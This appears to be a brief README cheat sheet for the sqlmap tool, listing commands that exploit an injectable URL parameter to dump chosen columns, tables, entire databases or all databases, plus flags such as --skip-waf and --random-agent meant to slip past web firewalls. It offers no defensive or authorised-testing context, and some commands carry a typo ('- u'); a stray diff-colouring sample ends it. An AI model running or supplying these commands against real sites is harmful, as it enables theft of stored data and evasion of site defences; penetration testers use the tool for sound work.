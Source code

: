 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **To Fetch Entire Database's Data** 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **To Fetch All Databases**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
 **Parameters**      **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
 **Optimised Url**    **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

```diff
+ this text is highlighted in green
- this text is highlighted in red
```
